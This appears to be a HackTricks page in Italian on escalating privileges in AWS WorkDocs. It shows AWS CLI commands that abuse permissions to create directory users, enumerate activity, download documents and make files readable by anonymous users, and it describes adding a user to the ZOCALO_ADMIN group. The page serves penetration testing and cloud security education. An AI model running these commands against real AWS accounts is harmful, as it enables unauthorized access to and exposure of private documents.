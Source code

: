 # AWS - WorkDocs Privesc

{{#include ../../../banners/hacktricks-training.md}}

## WorkDocs

Per ulteriori informazioni su WorkDocs controlla:

{{#ref}}
../aws-services/aws-directory-services-workdocs-enum.md
{{#endref}}

### `workdocs:CreateUser`

Crea un utente all'interno della Directory indicata, quindi avrai accesso sia a WorkDocs che a AD:
```bash
# Create user (created inside the AD)
aws workdocs create-user --username testingasd --given-name testingasd --surname testingasd --password <password> --email-address name@directory.domain --organization-id <directory-id>
```
### `workdocs:GetDocument`, `(workdocs:DescribeActivities)`

I file potrebbero contenere informazioni sensibili, leggili:
```bash
# Get what was created in the directory
aws workdocs describe-activities --organization-id <directory-id>

# Get what each user has created
aws workdocs describe-activities --user-id "S-1-5-21-377..."

# Get file (a url to access with the content will be retreived)
aws workdocs get-document --document-id <doc-id>
```
### `workdocs:AddResourcePermissions`

Se non hai accesso per leggere qualcosa, puoi semplicemente concederlo.
```bash
# Add permission so anyway can see the file
aws workdocs add-resource-permissions --resource-id <id> --principals Id=anonymous,Type=ANONYMOUS,Role=VIEWER
## This will give an id, the file will be acesible in: https://<name>.awsapps.com/workdocs/index.html#/share/document/<id>
```
### `workdocs:AddUserToGroup`

Puoi rendere un utente amministratore impostandolo nel gruppo ZOCALO_ADMIN.\
Per farlo, segui le istruzioni da [https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html](https://docs.aws.amazon.com/workdocs/latest/adminguide/manage_set_admin.html)

Accedi con quell'utente in workdoc e accedi al pannello di amministrazione in `/workdocs/index.html#/admin`

Non ho trovato alcun modo per farlo dalla cli.




{{#include ../../../banners/hacktricks-training.md}}
